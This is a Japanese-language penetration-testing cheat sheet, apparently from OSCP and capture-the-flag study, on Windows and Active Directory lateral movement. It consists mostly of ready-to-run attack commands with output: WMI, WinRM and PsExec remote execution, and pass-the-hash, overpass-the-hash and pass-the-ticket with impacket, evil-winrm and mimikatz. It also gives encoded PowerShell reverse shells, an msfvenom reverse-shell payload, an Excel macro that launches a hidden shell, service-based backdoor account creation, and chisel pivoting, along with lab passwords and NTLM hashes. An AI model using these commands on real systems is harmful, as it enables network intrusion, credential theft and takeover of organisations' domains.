









[toc]

### PortScan

[portscan](../portscan.md)

```cmd
nc.exe -nzvv -w 1 10.10.44.142 1-6000
nc.exe -nzvv -w 1 10.10.44.142 1-500
nc.exe -nzvv -w 1 10.10.44.142 5900-6000
```


### WMI and WinRM

リモートアクセスには135番ポートのRPC（Remote Procedure Calls）2を通じて通信

#### wmic

```cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "cmd"
```

##### powershell

```powershell
# credentialオブジェクトの作成
$username = 'web_svc';
$password = 'Diamond1';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; #パスワードを保護
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString #PSCredentialオブジェクトを作成

# セッションを作成
$options = New-CimSessionOption -Protocol DCOM #共通情報モデル (CIM) を作成.プロトコルにDCOMを指定
$session = New-Cimsession -ComputerName 10.10.44.142 -Credential $credential -SessionOption $Options
$command = 'cmd';

# コマンド実行
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

リバースシェルの場合

[pythonでpsのリバースシェルをbase64エンコード版で作成する](../Tools/python.md/#powershellリバースシェルをbase64でエンコード)

```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

#### winRM

WinRMはWS-Management8プロトコルのMicrosoftバージョンで、HTTPとHTTPSでXMLメッセージを交換します。暗号化されたHTTPSトラフィックにはTCPポート**5985**を使用し、プレーンなHTTPにはポート**5986**を使用

**winrsはドメインユーザーに対してのみ動作**する

```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

リバースシェルバージョン

```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

powershellで実行する場合

```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

### PsExec

* Ports: 445/TCP(SMB)
* Required Group Memberships：Administrators



```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

※別ウィンドウではなく同一ウィンドウでcmd実行される


### RDP

```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

```
rdesktop -g 90% -d EXAM -u ted -p avatar123 192.168.131.171
```


### Pass the Hash

NTML認証はipアドレス指定の場合に利用される

#### wmiexec

```bash
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```

#### pth-winexe

```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.151.1 cmd
```

#### evil-winrm

- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

```bash
evil-winrm -i 192.168.158.57 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 
```

#### impacket-psexec

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 Administrator@192.168.158.57
```


### Overthehash

NTLM のユーザハッシュを「over」use して、**完全な Kerberos チケット付与チケット(TGT)を取得し、この TGT を用いて、チケット付与サービス(TGS)を取得することができる。**

Over the HashもAdmin$という特別な管理者共有へのアクセスが必要なため、ターゲットマシンのローカル管理者権限が必要となる

mimikatzでover the hashする

```cmd
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe

user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

overthehashではKerberosチケットを発行するだけなのでwhoamiは元のユーザのままとなる。成功可否はKerberosチケットの有無で確認する

```powershell
PS C:\Windows\system32> klist
Current LogonId is 0:0x186536
Cached Tickets: (0)
```

一度もドメインに繋いでいない場合は上記エラーとなるため、ドメインコントローラ上のネットワーク共有に接続してTGTを生成する

```powershell
net use \\dc01

#再度確認する
klist

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

TGTとTGSが登録される

PsExecで横展開する

```powershell
PsExec.exe \\dc01 cmd.exe
```


### Pass the Ticket

別ユーザのTGSを取得し利用する手法

メモリ上のLSASSプロセス空間を解析して任意のTGT/TGSを探し、kirbi mimikatz形式でディスクに保存する

```cmd
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

新しく生成されたチケットを検証

```powershell
PS C:\Tools> dir *.kirbi
```

チケットをexportする

```cmd
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

klistで確認する

```cmd
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

SMB共有へのアクセス権が付与される

```
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```


### DCOM(Distributed Component Object Model)

ネットワーク上の複数のコンピュータ間の相互作用のためにDCOM（Distributed Component Object Model）へと拡張

 DCOM とのやりとりは、TCP 135 番ポートの RPC で行われる

API である DCOM サービスコントロールマネージャを呼び出すには、ローカル管理者のアクセス権が必要

* オブジェクトのインスタンスを作成

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.129.5"))
  
  $com | Get-Member
  ```

* RUNメソッドがあることを確認する

  

* Excelでマクロを作成する

  ```vbscript
  Sub mymacro()
      Shell ("notepad.exe")
  End Sub
  ```

* プロファイルの要件を満たすデスクトップフォルダを作成

  ```powershell
  $Path = "\\172.16.135.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
  
  $temp = [system.io.directory]::createDirectory($Path)
  ```

* リモートにexcelファイルをコピーし実行する

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.135.5"))
  
  $LocalPath = "C:\Users\jeff_admin\myexcel.xls"
  
  $RemotePath = "\\172.16.135.5\c$\myexcel.xls"
  
  [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
  
  $temp = [system.io.directory]::createDirectory($Path)
  
  $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
  
  $com.Run("mymacro")
  ```

* リバースシェル版でマクロを再作成する

  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=172.16.135.10 LPORT=4444 -f hta-psh -o evil.hta
  ```

  pythonで文字列分割する(python.mdを参照)

  ```
  Sub mymacro()
      
      Dim Str As String
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
      Str = Str + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
   
      Str = Str + "HQAeQBsAGUAPQAnAEgAaQBkAGQAZQBuACcAOwAkAHMALgBDAHI"
      Str = Str + "AZQBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAO"
      Str = Str + "wAkAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB"
      Str = Str + "0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByA"
      Str = Str + "HQAKAAkAHMAKQA7AA=="
      
      Shell (Str)
  End Sub
  ```

* ネットキャットで待機し、リモートにファイルコピーして改めてマクロを実行する

  ```cmd
  PS C:\Tools\practical_tools> nc.exe -lvnp 4444
  ```


#### Remotely Creating Services Using sc

- Ports:
  - 135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes) SMB over NetBIOS
- **Required Group Memberships:** Administrators

SVCCTL：Service Control Manager
EPM：Endpoint Mapper

1. port135のEPMにつなぐ、EPMがSVCCTLにアクセスするためのIPアドレスとポート番号を通知する。このポートには通常49152-65535のダイナミックポートが使われる。

   

2. もしRPCでの接続が失敗したらSMBパイプで接続を試みる(port 445 / port139)



`THMservice`を作って実行するコマンド

```cmd
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

"net user"コマンドがサービスがスタートすると実行され、新しいローカルユーザが作成される。
コマンド出力を確認することはできない。

サービスを止めて削除するコマンド

```cmd
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```


#### Creating Scheduled Tasks Remotely

schtasksを作成する。THMtask1を作成するコマンド

```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

/sc ONCE：特定の時間に一回のみ実施する

これも標準出力結果を見ることはできない

削除するコマンド

```cmd
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```


### Chiselを使ったproxychainsの構築(内部サーバーにnmapやpass the hashするとき)

https://ap3x.github.io/posts/pivoting-with-chisel/

```bash
cp ~/Documents/tools/chisel/* ~/Documents/OSCP/LAB/challenge4/MS01/
```

linuxでリッスンする

```bash
./chisel_linux server -p 8001 --reverse
```



windowsから接続する

```cmd
C:\Windows\system32>chisel.exe client 192.168.119.154:8001 R:1080:socks
```



kaliで/etc/proxychains4.confを編集する

```bash
sudo vi /etc/proxychains4.conf 
```



nmapを行う

```
proxychains4 nmap 10.10.44.142
```



Pass the hashする

```
proxychains4 evil-winrm -i 10.10.44.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
```




### パスワードでリモートログインする

SMB：管理者権限がない限り、psexec.pyやwmiexec.pyなどのリモートクライアントを使用してシェルを取得することは制限されている

WinRMの場合：ユーザーアカウントが`Remote Management Users`グループの一部であれば、PowerShellベースのシェルを取得することができます

#### 445

```bash
#<ドメイン名>/<ユーザ名>:<パスワード>
psexec.py "active.htb/SVC_TGS:GPPstillStandingStrong2k18"@10.129.219.129
```

#### 135

```bash
/usr/bin/impacket-wmiexec active.htb/SVC_TGS@10.129.219.129 cmd
```

#### 5985

```bash
evil-winrm -i 10.129.219.129 -u active.htb\SVC_TGS -p GPPstillStandingStrong2k18
# ドメイン不要の場合もあり
evil-winrm -i 10.129.192.240 -u svc-alfresco -p s3rvice 
```

※ `Remote Management Users`グループに所属している必要がある。
※ [AD Enume_リモートサーバーからの情報収集](./../ActiveDirectory/ActiveDirectory_enume.md/#リモートサーバーからの情報収集)

※プロトコルによって`\`か`/`かが変わるので注意
